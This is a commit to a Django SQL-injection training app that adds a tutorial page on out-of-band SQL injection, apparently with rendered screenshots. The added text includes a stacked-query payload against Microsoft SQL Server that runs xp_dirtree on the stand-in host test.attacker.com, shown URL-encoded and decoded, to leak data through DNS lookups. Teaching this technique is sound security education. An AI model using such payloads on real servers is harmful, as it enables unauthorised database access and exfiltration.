

Before and after one commit to Arielv1/Django-Practice-Sql-Injection, a Django app: page /learn/outband in a window 1280 px wide. Shown: the part 106-1293 px from the top of the page at 89% size. Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Django 3.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
added information about out-band and fix some design.

```diff
--- a/ProjectCode/sql_training/learn/templates/learn/inband.html
+++ b/ProjectCode/sql_training/learn/templates/learn/inband.html
@@ -5,7 +5,7 @@
 {% block content %}
 
 <body>
-    <h4>In-Band (Classic) SQL Injections</h4>
+    <h3>In-Band (Classic) SQL Injections</h3>
     <p>
         In-Band, also known as 'Classic' SQL Injection are performed
         by running SQL commands on the same interface and communication
--- a/ProjectCode/sql_training/learn/templates/learn/outband.html
+++ b/ProjectCode/sql_training/learn/templates/learn/outband.html
@@ -4,7 +4,40 @@
 {% endblock %}
 
 {% block content %}
-<h4>Out-Band SQL Injections</h4>
+<h3>Out-Band SQL Injections</h3>
+Out-of-band SQL Injection is not very common, mostly because it depends on features being enabled on the database server.
+
+These sql injection involve in alternative channels to extract data from the server.
+It might be HTTP(S) requests, DNS resolutions, file systems, E-mails, etc depending on the functionality of the back-end
+technology.
+most of those attacks will require the attacker to have a third party system like a proxy to gather data or listen to the response from the web application.
+<br><br>
+<h4> Example </h4>
+<p>To understand how this type of sql injection works, let’s consider the following SQL query that executes on a Microsoft SQL Server database.</p>
+<pre><code>SELECT * FROM products WHERE id={userInput}</code></pre>
+<p>The value of <kbd>id</kbd> comes from user input, from a URL such as the following.</p>
+<pre>https://example.com/products.aspx?id=1</pre>
+<p>This URL will generate the following SQL query.</p>
+<pre><code>SELECT * FROM products WHERE id=1</code></pre>
+
+<p>Attacker can make attack using the  xp_dirtree command on microsoft sql server database.</p>
+<pre>https://example.com/products.aspx?id=1;EXEC%20master..xp_dirtree%20'%5c%5ctest.attacker.com%5c'+--+</pre>
+<p>Let’s URL decode this payload</p>
+<pre>https://example.com/products.aspx?id=1;EXEC master..xp_dirtree '\\test.attacker.com\' --</pre>
+<p>This will produce the following SQL query.</p>
+<pre><code>SELECT * FROM products WHERE id=1;EXEC master..xp_dirtree '\\test.attacker.com\' -- </code></pre>
+<p>What happened is that there are now two separated queries that SQL Server will execute.</p>
+<pre><code>/* First Query */
+SELECT * FROM products WHERE id=1
+
+/* Second Query */
+EXEC master..xp_dirtree '\\test.attacker.com\' -- </code></pre>
+<p>The second query is invoking a stored procedure <kbd>xp_dirtree</kbd>. This extended stored procedure can be used to
+    get a list of all the folders for the folder named in the xp.</p>
+<p>SQL Server will now proceed to list all the folders from <em>\\test.attacker.com\</em>. To do this, it must first resolve the address of the domain
+    <em>test.attacker.com</em>, for which it makes a DNS query to attacker’s DNS server. The attacker can monitor DNS server logs and look for queries to
+    <em>test.attacker.com</em>.</p>
+ This attack can be done only when the feature will be enable on the database , so the database can send dns queries and http requests
 <br><br><br><br><br>
 
 {% endblock%}
```
Also changed, not shown: ProjectCode/sql_training/learn/templates/learn/blind.html (+8 -13 lines), ProjectCode/sql_training/learn/templates/learn/learn.html (+3 -6 lines), ProjectCode/sql_training/sql_training/settings.py (+0 -9 lines).
